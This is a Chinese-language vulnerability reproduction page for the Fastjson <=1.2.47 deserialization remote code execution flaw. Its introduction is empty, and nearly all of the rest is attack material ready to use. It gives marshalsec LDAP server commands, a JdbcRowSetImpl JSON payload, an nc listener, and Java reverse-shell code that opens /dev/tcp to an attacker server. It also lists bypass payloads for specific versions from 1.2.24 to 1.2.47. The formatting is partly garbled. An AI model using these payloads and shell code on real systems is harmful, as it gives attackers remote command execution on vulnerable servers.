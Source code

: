 ```yaml
---
title: Fastjson <=1.2.47 远程代码执行漏洞
id: zhfly2932
---
```


# Fastjson <=1.2.47 远程代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

Fastjson < 1.2.47

## 三、复现过程

**https://github.com/ianxtianxt/fastjson-1.2.47-RCE-1**

*   执行：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IPvps/#Exploit 
```

![1.png](../img/9b3e00b075cd75d5c4a2b2b1dd16f855.png)

*   修改反弹ip和端口：

```
vim Exploit.java 
```

*   编译生成class：//`需要使用jdk1.8，否则会报错`

```
javac Exploit.java 
```

*   开启http服务：

```
python3 -m http.server 80 或者 python -m SimpleHTTPServer 80 
```

*   payload:

```
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1389/Exploit","autoCommit":true}}} 
```

*   开启nc监听反弹：

```
nc -lvvp 8888 
```

### 反弹shell poc补充

#### **java反弹shell，无法直接使用bash -i >& /dev/tcp/攻击服务器ip/8888 0>&1**

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{

public Exploit() throws Exception {

Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c",“exec 5<>/dev/tcp/攻击服务器ip/888;cat <&5 | while read line; do $line 2>&5 >&5; done”});

InputStream is = p.getInputStream();

BufferedReader reader = new BufferedReader(new InputStreamReader(is));

```
 String line;
    while((line = reader.readLine()) != null) {
        System.out.println(line);
    }

    p.waitFor();
    is.close();
    reader.close();
    p.destroy();
}

public static void main(String[] args) throws Exception {
} 
``` `}` 
```

### 补充

**https://github.com/ianxtianxt/Fastjson-1.2.47-rce**

```
1.2.24
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}

未知版本(1.2.24-41之间)

{"@type":“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true}

1.2.41

{"@type":“Lcom.sun.rowset.RowSetImpl;”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true}

1.2.42

{"@type":“LLcom.sun.rowset.JdbcRowSetImpl;;”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true};

1.2.43

{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true]}

1.2.45

{"@type":“org.apache.ibatis.datasource.jndi.JndiDataSourceFactory”,“properties”:{“data_source”:“rmi://localhost:1099/Exploit”}} `1.2.47

{“a”:{"@type":“java.lang.Class”,“val”:“com.sun.rowset.JdbcRowSetImpl”},“b”:{"@type":“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“rmi://localhost:1099/Exploit”,“autoCommit”:true}}}` 
```
